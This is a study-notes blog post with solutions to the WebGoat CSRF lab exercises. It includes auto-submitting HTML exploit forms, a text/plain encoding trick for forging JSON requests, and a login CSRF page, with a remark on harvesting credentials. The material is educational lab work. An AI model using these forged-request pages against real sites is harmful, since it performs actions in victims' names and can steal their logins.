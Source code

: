 Title: Road to OSCP: WebGoat A8: CSRF
Summary: Short notes about these tasks
Category: OSCP
Tags: websec, webgoat, csrf
Date: 2020-03-11 14:45
Status: published

#### Basic Get CSRF Exercise
To pass this one we should issue a POST request to `/WebGoat/csrf/basic-get-flag` in that way so it looks like have done from another host. To achieve this one could use intercepting proxy or browser devtools to modify request done from the browser and change `Referer` header's value to some random host. For example, to `example.com`. This solution is cheaty, proper 'exploit' is a page that looks like this:
```html
<html>
  <head></head>
  <body>
    <form name="f" action="http://localhost:8080/WebGoat/csrf/basic-get-flag" method="POST">
      <input type="hidden" name="csrf" value="false"/>
    </form>
    <script>document.f.submit();</script>
  </body>
</html>
```
It will show token after opening.

#### Post a review on someone else’s behalf
It's quite strange, but this could be solved in exact same way like the previous one. Is there some sort of a bug? Making a request with tampered `Referer` allow to pass this one. As earlier, correct solution is to craft a page like this:
```html
<html>
  <head></head>
  <body>
    <form name="f" action="http://localhost:8080/WebGoat/csrf/review" method="POST">
      <input type="hidden" name="reviewText" value="nailed"/>
      <input type="hidden" name="stars" value="5"/>
      <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9"/>
    </form>
    <script>document.f.submit();</script>
  </body>
</html>
```
The only difference is that there are three inputs instead of one, and one contain a static value. 

#### CSRF and content-type
I stuck for a while here. We provided with a writeup on how to exploit some CSRF vulnerabilities where JSON, XML or whatever alike required. Main idea is that we could craft a form that sends some input data as plain text without applying url encoding. This trick is relatively simple:
```html
<html>
  <head></head>
  <body>
    <form name="sample" action="http://localhost:8080/WebGoat/csrf/feedback/message" method="POST" ENCTYPE="text/plain">
      <input type="hidden" 
             name='{"name":"WebGoat","email":"webgoat@webgoat.org","subject":"service","content":"WebGoat is the best!!"}'
      />
    </form>
    <script>document.sample.submit();</script>
  </body>
</html>
```
Did you notice `ENCTYPE` form attribute? That's telling browser not to apply url encoding and effectively changes `Content-Type` header value to `text/plain` (at least in Firefox 68). The main caveat here is that browser appends equal sign at the end of the JSON because it expects some value passed in. This is where I stuck and even was thinking that this task is outdated, mostly because of this fragment of writeup:
> This results in a perfectly formatted Cross-Domain XML POST request.  The ENCTYPE avoids the body being encoded and he cleverly absorbs the unwanted “=” into the XML at a point where we need an “=” anyway.

Well, it does not "absorb the unwanted =" hence JSON rendered invalid and this will result in HTTP 500. I also found a [W3C standard](https://www.w3.org/TR/html52/sec-forms.html#plain-text-form-data) that instructs to do so and really was thinking that browsers fixed this behaviour some way. Hovewer, [Firefox 52.0.2](https://ftp.mozilla.org/pub/firefox/releases/52.0.2/) (dates back to when writeup was published) behaves exactly like Firefox 68, so this hypothesis does not seem to be right. So I've tried to use some `<!DOCTYPE>` declarations and `version` html attributes to tell browser that this doc is not HTML5 compliant. Still no luck. Dumb me! Solution was pretty simple. It was possible to provide phony JSON member that swallows unwanted equal sign. It was needed to change `input` declaration in that fashion:
```html
<input type="hidden" name='{"name":"WebGoat",...<SNIP>...,"phony:"' value='useless"}'/>
```
So resultant JSON will look like this:
```json
{
  "name": "WebGoat",
  "email": "webgoat@webgoat.org",
  "subject": "service",
  "content": "WebGoat is the best!!",
  "phony": "=useless"
}
```
Last member is ignored by the application and I've finally got a flag.

#### Login CSRF attack
If I grasp it right, to solve is simply to craft a document like this and open it locally or upload to webwolf and open from it:
```html
<html>
  <head></head>
  <body>
    <form name="sample" action="http://localhost:8080/WebGoat/login" method="POST">
	    <input type="hidden" name='username' value='csrf-theuser'/>
	    <input type="hidden" name='password' value='theuser'/>
    </form>
    <script>document.sample.submit();</script>
  </body>
</html>
```
It could be assumed that document may have any sophisticated form, for example exact copy of original logn page thus allowing attacker to harvest credentials.
Also need to carefully read [paper](http://seclab.stanford.edu/websec/csrf/csrf.pdf) from the exercise.
